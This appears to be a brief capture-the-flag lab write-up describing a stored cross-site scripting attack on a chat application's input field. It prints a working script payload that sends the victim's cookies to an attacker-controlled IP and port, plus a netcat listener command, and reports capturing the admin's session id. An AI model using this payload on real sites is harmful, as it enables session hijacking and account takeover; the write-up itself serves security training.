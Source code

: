 # XSS
----


--> we got this page on the 3000 port 

![[Pasted image 20210813112804.png]]

--> so Let's register and login 

--> after login we can see some chats and one imput field 

![[Pasted image 20210813112858.png]]

--> so i got the payload in the supporting material so i changed it a bit and made my payload 

```html
<script>window.location='http://10.9.3.121:4444/?cookie='+document.cookie</script>
```

--> so Let's add this payload and listen for connection on port 4444

```c
sudo nc -lvnp 4444
```

--> first we will submit the payload and then start the listening 

--> and after some time we got the admin's session id

![[Pasted image 20210813113230.png]]
